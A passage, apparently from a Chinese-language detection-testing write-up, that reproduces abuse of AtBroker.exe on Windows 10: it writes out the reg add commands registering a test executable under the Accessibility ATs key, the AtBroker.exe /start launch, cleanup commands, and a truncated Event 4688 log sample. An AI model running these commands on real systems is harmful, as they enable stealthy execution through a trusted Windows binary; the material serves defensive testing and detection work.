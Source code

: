 ## 测试复现

### 测试环境

- 系统：Windows 10 (Build 18363.418)
- 用户：普通用户（注册表修改需管理员权限）

### 测试过程

#### 1. 准备恶意载荷

- 创建简单测试文件`malware.exe`（如启动`calc.exe`的批处理转EXE）。
- 放置于`C:\Temp\malware.exe`。

#### 2. 修改注册表

**命令**：
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware" /v ATExe /t REG_SZ /d "C:\Temp\malware.exe" /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware" /v Description /t REG_SZ /d "Malicious AT Application" /f
```

#### 3. 执行攻击

**命令**：
```cmd
C:\Users\liyang>AtBroker.exe /start malware
```

**结果**：
- `malware.exe`执行，触发`calc.exe`（假设`malware.exe`为测试载荷）。
- 日志记录`AtBroker.exe`和`malware.exe`的进程创建。

#### 4. 清理

**命令**：
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Accessibility\ATs\malware" /f
del C:\Temp\malware.exe
taskkill /IM calc.exe /F
```

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: DESKTOP-PT656L6
描述:
已创建新进程。

创建者主题:
  安全 ID: DESKTOP-PT656L6\liyang
  帐户名: liyang
  帐户域: DESKTOP-PT656L6
  登录 ID: 0x47126

```